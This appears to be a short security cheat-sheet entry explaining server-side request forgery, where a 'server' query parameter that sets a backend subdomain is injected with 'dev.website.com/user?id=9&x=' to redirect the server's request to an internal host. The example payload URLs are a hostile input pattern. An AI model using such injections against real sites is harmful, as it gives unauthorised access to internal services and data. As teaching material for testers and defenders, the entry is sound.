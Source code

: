 # SSRF via injection

We have the ability through the server parameter, to choose the subdomain to use:

```bash
https://website.com/item/3?server=api -> https://api.website.com/api/item?id=3
```

That is, we can overwrite the following part of the URL:

```bash
https://<INJECT>.website.com/...
```

In this case, we can abuse this to search for something else of value:

```bash
https://website.com/item/3?server=dev.website.com/user?id=9&x=
```

The **x=** is used to comment/ignore the remaining domain (**.website.com**). So the URL would look like this:

```bash
https://dev.website.com/user?id=9&x=.website.com/api/item?id=2
```
